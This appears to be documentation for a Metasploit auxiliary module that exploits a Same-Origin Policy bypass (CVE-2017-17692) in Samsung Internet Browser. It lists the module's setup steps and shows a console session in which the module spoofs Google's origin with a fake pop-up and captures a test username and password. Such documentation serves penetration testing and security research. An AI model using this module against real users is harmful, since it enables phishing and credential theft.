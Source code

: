 ## Vulnerable Application

This Module was tested on Samsung Internet Browser 5.4.02.3 during development.

This module takes advantage of a Same-Origin Policy (SOP) bypass vulnerability in the Samsung Internet Browser (CVE-2017-17692), a popular mobile browser shipping with Samsung Android devices. By default, it initiates a redirect to a child tab, and rewrites the innerHTML to gather credentials via a fake pop-up and the gather credentials is stored in `creds`

## Verification Steps

1. Start `msfconsole -q`
2. `use auxiliary/gather/samsung_browser_sop_bypass`
3. `set SRVHOST`
4. `set SRVPORT`
5. `set URIPATH`
6. `set TARGET_URL`
5. `run`

## Scenarios

```
$ sudo msfconsole -q
msf > use auxiliary/gather/samsung_browser_sop_bypass
msf auxiliary(samsung_browser_sop_bypass) > set SRVHOST 192.168.1.104
SRVHOST => 192.168.1.104
msf auxiliary(samsung_browser_sop_bypass) > set SRVPORT 9090
SRVPORT => 9090
msf auxiliary(samsung_browser_sop_bypass) > set URIPATH /
URIPATH => /
msf auxiliary(samsung_browser_sop_bypass) > set TARGET_URL https://www.google.com/csi
TARGET_URL => https://www.google.com/csi
msf auxiliary(samsung_browser_sop_bypass) > run
[*] Auxiliary module execution completed
msf auxiliary(samsung_browser_sop_bypass) >
[*] Using URL: http://192.168.1.104:9090/
[*] Server started.
[*] 192.168.1.101: Request 'GET /'
[*] 192.168.1.101: Attempting to spoof origin for https://www.google.com/csi
[*] 192.168.1.101: Request 'GET /favicon.ico'
[*] 192.168.1.101: Attempting to spoof origin for https://www.google.com/csi
[*] 192.168.1.101: Request 'GET /favicon.ico'
[*] 192.168.1.101: Attempting to spoof origin for https://www.google.com/csi
[+] 192.168.1.101: Collected credential for 'https://www.google.com/csi' emailID:MyStrongPassword

msf auxiliary(samsung_browser_sop_bypass) > creds
Credentials
===========

host            origin          service          public          private                                                            realm                       private_type
----            ------          -------          ------          -------                                                            -----                       ------------
                                                 emailID         MyStrongPassword                                                   https://www.google.com/csi  Password

msf auxiliary(samsung_browser_sop_bypass) >
```

Working of MSF Module: `https://youtu.be/ulU98cWVhoI`

Vulnerable Browser: `https://youtu.be/lpkbogxJXnw`
